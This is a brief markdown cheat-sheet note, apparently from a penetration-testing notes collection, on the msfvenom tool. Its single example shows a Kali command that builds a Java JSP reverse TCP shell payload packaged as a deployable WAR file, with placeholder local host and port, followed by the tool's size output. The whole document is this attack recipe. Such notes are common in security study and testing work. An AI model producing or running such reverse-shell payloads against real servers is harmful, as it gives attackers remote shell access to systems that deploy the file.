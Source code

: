 # msfvenom
## Examples
### create Java JSP payload as war
```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f war > exploit.war
Payload size: 1084 bytes
Final size of war file: 1084 bytes
```